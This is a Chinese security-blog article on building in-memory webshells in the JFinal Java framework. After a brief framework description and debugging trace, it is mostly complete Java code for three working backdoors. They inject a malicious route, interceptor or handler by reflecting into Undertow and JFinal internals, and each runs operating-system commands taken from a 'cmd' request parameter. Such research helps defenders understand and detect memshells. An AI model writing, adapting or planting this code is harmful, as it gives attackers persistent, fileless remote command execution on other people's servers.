# 某java框架内存马构造-先知社区

> **来源**: https://xz.aliyun.com/news/16529  
> **文章ID**: 16529

---

**简介**  
JFinal 是基于 Java 语言的极速 WEB + ORM 框架，其核心设计目标是开发迅速、代码量少、学习简单、功能强大、轻量级、易扩展、Restful。在拥有Java语言所有优势的同时再拥有 ruby、python 等动态语言的开发效率！为您节约更多时间，去陪恋人、家人和朋友 ;)  
**环境搭建**  
参考 <https://jfinal.com/doc/1-2> ，在jfinal-undertow下开发，基于JFinal的web项目需要创建一个继承自JFinalConfig类的子类，该类用于对整个web项目进行配置。



通过configRoute、configInterceptor、configHandler方法可以对route、interceptor、handler进行配置，新版本中Routes提供了scan方法自动扫描指定包下的控制器（带注解）来注册路由，下面针对这三个模块来构造对应的route、interceptor、handler内存马。  
**route内存马**  
因为Routes提供了add方法来注册路由

```
//com.jfinal.config.Routes#add(java.lang.String, java.lang.Class<? extends com.jfinal.core.Controller>)
    public Routes add(String controllerPath, Class<? extends Controller> controllerClass) {
        return this.add(controllerPath, controllerClass, controllerPath);
    }

```

所以我尝试通过获取routes相关变量，通过java-object-searcher搜索：

```
static {
        try {
            Thread thread = Thread.currentThread();
            Object obj = getField(thread, "threadLocals");
            Object table = getField(obj, "table");

            if (table != null) {
                for (int i = 0; i < Array.getLength(table); i++) {
                    Object entry = Array.get(table, i);
                    if (entry != null) {
                        obj = getField(entry, "value");
                        if (obj != null) {
                            if (obj.getClass().getName().contains("ServletRequestContext")) {
                                obj = getField(obj, "deployment");
                                List<Lifecycle> deployment = (List<Lifecycle>) getField(obj, "lifecycleObjects");
                                if (deployment != null) {
                                    for (Lifecycle o : deployment) {
                                        if (o != null) {
                                            if (o.getClass().getName().contains("ManagedFilter")) {
                                                JFinalFilter filter = (JFinalFilter) getField(o, "filter");
                                                JFinal jfinal = (JFinal) getField(filter, "jfinal");
                                                Object handler = getField(filter, "handler");
                                                Handler actionhandler = (Handler) getParentNext(handler);
                                                actionMapping = (ActionMapping) getField(jfinal,
                                                        "actionMapping");
                                                routes = (Routes) getField(actionMapping, "routes");
                                            }
                                        }
                                    }
                                }
                                break;
                            }
                        }
                    }
                }
            }
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
    }
    //调用接口添加一条路由
    routes.add("/shell",ShellController.class)

```

然而没有卵用，还是分析下请求过程，在入口断点：



```
index:8, DemoController
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invoke:97, Invocation (com.jfinal.aop)
intercept:10, DemoInterceptor
invoke:91, Invocation (com.jfinal.aop)
handle:118, ActionHandler (com.jfinal.core)
handle:11, Demo3Handler
handle:11, Demo2Handler
handle:12, DemoHandler
doFilter:90, JFinalFilter (com.jfinal.core)
doFilter:67, ManagedFilter (io.undertow.servlet.core)
doFilter:131, FilterHandler$FilterChainImpl (io.undertow.servlet.handlers)
handleRequest:84, FilterHandler (io.undertow.servlet.handlers)
handleRequest:62, ServletSecurityRoleHandler (io.undertow.servlet.handlers.security)
handleRequest:68, ServletChain$1 (io.undertow.servlet.handlers)
handleRequest:36, ServletDispatchingHandler (io.undertow.servlet.handlers)
handleRequest:68, RedirectDirHandler (io.undertow.servlet.handlers)
handleRequest:117, SSLInformationAssociationHandler (io.undertow.servlet.handlers.security)
handleRequest:57, ServletAuthenticationCallHandler (io.undertow.servlet.handlers.security)
handleRequest:43, PredicateHandler (io.undertow.server.handlers)
handleRequest:46, AbstractConfidentialityHandler (io.undertow.security.handlers)
handleRequest:64, ServletConfidentialityConstraintHandler (io.undertow.servlet.handlers.security)
handleRequest:60, AuthenticationMechanismsHandler (io.undertow.security.handlers)
handleRequest:77, CachedAuthenticatedSessionHandler (io.undertow.servlet.handlers.security)
handleRequest:43, AbstractSecurityContextAssociationHandler (io.undertow.security.handlers)
handleRequest:43, PredicateHandler (io.undertow.server.handlers)
handleRequest:52, SendErrorPageHandler (io.undertow.servlet.handlers)
handleRequest:43, PredicateHandler (io.undertow.server.handlers)
handleRequest:119, SessionRestoringHandler (io.undertow.servlet.handlers)
handleFirstRequest:275, ServletInitialHandler (io.undertow.servlet.handlers)
access$100:79, ServletInitialHandler (io.undertow.servlet.handlers)
call:134, ServletInitialHandler$2 (io.undertow.servlet.handlers)
call:131, ServletInitialHandler$2 (io.undertow.servlet.handlers)
call:48, ServletRequestContextThreadSetupAction$1 (io.undertow.servlet.core)
call:43, ContextClassLoaderSetupAction$1 (io.undertow.servlet.core)
dispatchRequest:255, ServletInitialHandler (io.undertow.servlet.handlers)
access$000:79, ServletInitialHandler (io.undertow.servlet.handlers)
handleRequest:100, ServletInitialHandler$1 (io.undertow.servlet.handlers)
executeRootHandler:393, Connectors (io.undertow.server)
run:852, HttpServerExchange$1 (io.undertow.server)
run:35, ContextClassLoaderSavingRunnable (org.jboss.threads)
safeRun:2019, EnhancedQueueExecutor (org.jboss.threads)
doRunTask:1558, EnhancedQueueExecutor$ThreadBody (org.jboss.threads)
run:1423, EnhancedQueueExecutor$ThreadBody (org.jboss.threads)
run:1282, XnioWorker$WorkerThreadFactory$1$1 (org.xnio)
run:748, Thread (java.lang)

```

其中Demo3Handler、Demo2Handler、DemoHandler是自定义的三个handler，在web配置中定义，调用完这三个，紧接着调用ActionHandler，这都是Handler的实现类



实际上这里是  
com.jfinal.core.JFinalFilter#doFilter中调用了

```
this.handler.handle(target, request, response, isHandled);

```

而this.handler中存储了第一个Handler，就是DemoHandler，其中next属性值又为第二个Demo2Handler，这样循环调用到ActionHandler


接着看com.jfinal.core.ActionHandler#handle，在59行断点，重新执行



通过com.jfinal.core.ActionHandler#getAction获取action，根据路由/hello，而这个getAction就是从actionMapping中取值，

```
//com.jfinal.core.ActionHandler#getAction
    protected Action getAction(String target, String[] urlPara) {
        return this.actionMapping.getAction(target, urlPara);
    }
//com.jfinal.core.ActionMapping#getAction
    public Action getAction(String url, String[] urlPara) {
        Action action = (Action)this.mapping.get(url);
        if (action != null) {
            return action;
        } else {
            int i = url.lastIndexOf(47);
            if (i != -1) {
                action = (Action)this.mapping.get(url.substring(0, i));
                if (action != null) {
                    urlPara[0] = url.substring(i + 1);
                }
            }

            return action;
        }
    }

```

而this.mapping值实际上是个Map对象



那尝试在mapping中添加一个String和Action，Action内的构造函数：

```
//com.jfinal.core.Action#Action
    public Action(String controllerPath, String actionKey, Class<? extends Controller> controllerClass, Method method, String methodName, Interceptor[] interceptors, String viewPath) {
        this.controllerPath = controllerPath;
        this.actionKey = actionKey;
        this.controllerClass = controllerClass;
        this.method = method;
        this.methodName = methodName;
        this.interceptors = interceptors;
        this.viewPath = viewPath;
        this.parameterGetter = ParaProcessorBuilder.me.build(controllerClass, method);
        method.setAccessible(true);
    }

```

需要构造一个Action对象，在初始化参数时还有一些坑，就不多说了，多调试几遍就解决了，代码实现：  
ShellController:

```
import com.jfinal.core.Controller;

import java.io.IOException;

public class ShellController extends Controller {
    public void index() throws IOException {
        String cmd = getPara("cmd");
        Runtime.getRuntime().exec(cmd);
    }
}

```

AddControllermemshell:

```
import com.jfinal.aop.Interceptor;
import com.jfinal.aop.Invocation;
import com.jfinal.config.Routes;
import com.jfinal.core.*;
import com.jfinal.handler.Handler;
import io.undertow.servlet.core.Lifecycle;

import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.List;
import java.util.Map;

@Path("/addcontrollermemshell")
public class AddControllermemshell extends Controller {
    private static Routes routes;
    private static ActionMapping actionMapping;

    static {
        try {
            Thread thread = Thread.currentThread();
            Object obj = getField(thread, "threadLocals");
            Object table = getField(obj, "table");

            if (table != null) {
                for (int i = 0; i < Array.getLength(table); i++) {
                    Object entry = Array.get(table, i);
                    if (entry != null) {
                        obj = getField(entry, "value");
                        if (obj != null) {
                            if (obj.getClass().getName().contains("ServletRequestContext")) {
                                obj = getField(obj, "deployment");
                                List<Lifecycle> deployment = (List<Lifecycle>) getField(obj, "lifecycleObjects");
                                if (deployment != null) {
                                    for (Lifecycle o : deployment) {
                                        if (o != null) {
                                            if (o.getClass().getName().contains("ManagedFilter")) {
                                                JFinalFilter filter = (JFinalFilter) getField(o, "filter");
                                                JFinal jfinal = (JFinal) getField(filter, "jfinal");
                                                Object handler = getField(filter, "handler");
                                                Handler actionhandler = (Handler) getParentNext(handler);
                                                actionMapping = (ActionMapping) getField(jfinal,
                                                        "actionMapping");
                                                routes = (Routes) getField(actionMapping, "routes");
                                            }
                                        }
                                    }
                                }
                                break;
                            }
                        }
                    }
                }
            }
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
    }

    public void index() throws NoSuchFieldException, IllegalAccessException,
            NoSuchMethodException {

        Method index = ShellController.class.getDeclaredMethod("index");
        Action shellaction = new Action("/controllershell", "/controllershell", ShellController.class, index, index.getName(),
                new Interceptor[]{new Demo1Interceptor()}, "/controllershell/");
        Map mapping = (Map) getField(actionMapping, "mapping");
        mapping.put("/controllershell", shellaction);
        renderText("controllermemshell added");
        //routes.add("s",ShellController.class);
    }

    public static Object getField(Object o, String s) throws NoSuchFieldException, IllegalAccessException {
        Field field;
        try {
            field = o.getClass().getDeclaredField(s);
        } catch (NoSuchFieldException e) {
            try {
                field = o.getClass().getSuperclass().getDeclaredField(s);
            } catch (Exception e1) {
                field = o.getClass().getSuperclass().getSuperclass().getDeclaredField(s);
            }
        }
        field.setAccessible(true);
        return field.get(o);
    }

    public static Object getParentNext(Object handler) {
        Object current = handler;
        Object current1 = current;

        try {

            Class<?> clazz = current.getClass();

            while (clazz != null) {

//                Class<?> clazz = current.getClass();

                Field nextField = null;
                try {
                    nextField = clazz.getDeclaredField("next");
                } catch (NoSuchFieldException e) {

                    clazz = clazz.getSuperclass();
                    if (clazz == null) {

                        break;
                    }
                    continue;
                }

                nextField.setAccessible(true);

                current1 = current;
                current = nextField.get(current);

                if (current == null) {
//                    nextField.set(current1,shell);
//                    return current;
                    break;
                }
            }
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        return current1;
    }

    private class Demo1Interceptor implements Interceptor {
        @Override
        public void intercept(Invocation invocation) {
            invocation.invoke();
        }
    }
}

```





**interceptor内存马**  
刚才通过分析，应用会执行到com.jfinal.core.ActionHandler#handle，接着分析handle的执行流程，发现88行执行了



跟进com.jfinal.aop.Invocation#invoke：



发现这里是调用了interceptors中interceptor.intercept



那么可以尝试针对指定路由构造interceptor内存马，代码实现如下：  
ShellInterceptor：

```
import com.jfinal.aop.Interceptor;
import com.jfinal.aop.Invocation;
import com.jfinal.core.Controller;

import java.io.IOException;

public class ShellInterceptor implements Interceptor {
    @Override
    public void intercept(Invocation invocation) {
        Controller controller = invocation.getController();
        if (controller.getPara("cmd") != null) {
            try {
                Runtime.getRuntime().exec(controller.getPara("cmd"));
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        invocation.invoke();
    }
}

```

AddInterceptormemshell:

```
import com.jfinal.aop.Interceptor;
import com.jfinal.config.Routes;
import com.jfinal.core.*;
import com.jfinal.handler.Handler;
import io.undertow.servlet.core.Lifecycle;

import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.util.List;
import java.util.Map;

@Path("/addinterceptormemshell")
public class AddInterceptormemshell extends Controller {
    private static ActionMapping actionMapping = null;
    private static Map mapping = null;

    static {
        try {
            Thread thread = Thread.currentThread();
            Object obj = getField(thread, "threadLocals");
            Object table = getField(obj, "table");

            if (table != null) {
                for (int i = 0; i < Array.getLength(table); i++) {
                    Object entry = Array.get(table, i);
                    if (entry != null) {
                        obj = getField(entry, "value");
                        if (obj != null) {
                            if (obj.getClass().getName().contains("ServletRequestContext")) {
                                obj = getField(obj, "deployment");
                                List<Lifecycle> deployment = (List<Lifecycle>) getField(obj, "lifecycleObjects");
                                if (deployment != null) {
                                    for (Lifecycle o : deployment) {
                                        if (o != null) {
                                            if (o.getClass().getName().contains("ManagedFilter")) {
                                                JFinalFilter filter = (JFinalFilter) getField(o, "filter");
                                                JFinal jfinal = (JFinal) getField(filter, "jfinal");
                                                Object handler = getField(filter, "handler");
                                                Handler actionhandler = (Handler) getField(handler, "next");
                                                actionMapping = (ActionMapping) getField(jfinal,
                                                        "actionMapping");
                                                mapping = (Map) getField(actionMapping, "mapping");
                                            }
                                        }
                                    }
                                }
                                break;
                            }
                        }
                    }
                }
            }
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
    }


    public void index() throws NoSuchFieldException, IllegalAccessException {
        Action helloAction = (Action) mapping.get("/hello");
//        Interceptor[] interceptors = helloAction.getInterceptors();

        Interceptor[] interceptors = new Interceptor[1];
        interceptors[0] = new ShellInterceptor();


        Field field = helloAction.getClass().getDeclaredField("interceptors");
        field.setAccessible(true);
        field.set(helloAction, interceptors);
        renderText("interceptormemshell added");


    }

    public static Object getField(Object o, String s) throws NoSuchFieldException, IllegalAccessException {
        Field field;
        try {
            field = o.getClass().getDeclaredField(s);
        } catch (NoSuchFieldException e) {
            try {
                field = o.getClass().getSuperclass().getDeclaredField(s);
            } catch (Exception e1) {
                field = o.getClass().getSuperclass().getSuperclass().getDeclaredField(s);
            }
        }
        field.setAccessible(true);
        return field.get(o);
    }

}

```

成功执行的话，仅在/hello下可以通过传参：







**handler内存马**  
刚才的流程分析提到了handler嵌套执行的流程



那么可以尝试在这个嵌套结构中插入一个恶意的handler来执行，代码：  
ShellHandler：

```
import com.jfinal.handler.Handler;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

public class ShellHandler extends Handler {
    @Override
    public void handle(String s, HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse,
                       boolean[] booleans) {
        if (s.equals("/cmd")) {
            String cmd = httpServletRequest.getParameter("cmd");
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        next.handle(s, httpServletRequest, httpServletResponse, booleans);
    }
}

```

AddHandlermemshell：

```
import com.jfinal.aop.Interceptor;
import com.jfinal.aop.Invocation;
import com.jfinal.core.*;
import com.jfinal.handler.Handler;
import io.undertow.servlet.core.Lifecycle;

import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.util.List;

@Path("/addhandlermemshell")
public class AddHandlermemshell extends Controller {

    private static Handler handler;

    static {
        try {
            Thread thread = Thread.currentThread();
            Object obj = getField(thread, "threadLocals");
            Object table = getField(obj, "table");

            if (table != null) {
                for (int i = 0; i < Array.getLength(table); i++) {
                    Object entry = Array.get(table, i);
                    if (entry != null) {
                        obj = getField(entry, "value");
                        if (obj != null) {
                            if (obj.getClass().getName().contains("ServletRequestContext")) {
                                obj = getField(obj, "deployment");
                                List<Lifecycle> deployment = (List<Lifecycle>) getField(obj, "lifecycleObjects");
                                if (deployment != null) {
                                    for (Lifecycle o : deployment) {
                                        if (o != null) {
                                            if (o.getClass().getName().contains("ManagedFilter")) {
                                                JFinalFilter filter = (JFinalFilter) getField(o, "filter");
                                                handler = (Handler) getField(filter, "handler");
                                            }
                                        }
                                    }
                                }
                                break;
                            }
                        }
                    }
                }
            }
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
    }

    public void index() throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException,
            NoSuchMethodException {

        Field next = handler.getClass().getSuperclass().getDeclaredField("next");
        next.setAccessible(true);
        Handler o = (Handler) next.get(handler);

        Handler shellhandler = new ShellHandler();
        Field next1 = shellhandler.getClass().getSuperclass().getDeclaredField("next");
        next1.setAccessible(true);
        next1.set(shellhandler,o);

        next.set(handler,shellhandler);
        renderText("handlermemshell added");
    }

    public static Object getField(Object o, String s) throws NoSuchFieldException, IllegalAccessException {
        Field field;
        try {
            field = o.getClass().getDeclaredField(s);
        } catch (NoSuchFieldException e) {
            try {
                field = o.getClass().getSuperclass().getDeclaredField(s);
            } catch (Exception e1) {
                field = o.getClass().getSuperclass().getSuperclass().getDeclaredField(s);
            }
        }
        field.setAccessible(true);
        return field.get(o);
    }

    private class Demo1Interceptor implements Interceptor {
        @Override
        public void intercept(Invocation invocation) {
            invocation.invoke();
        }
    }
}

```

效果：






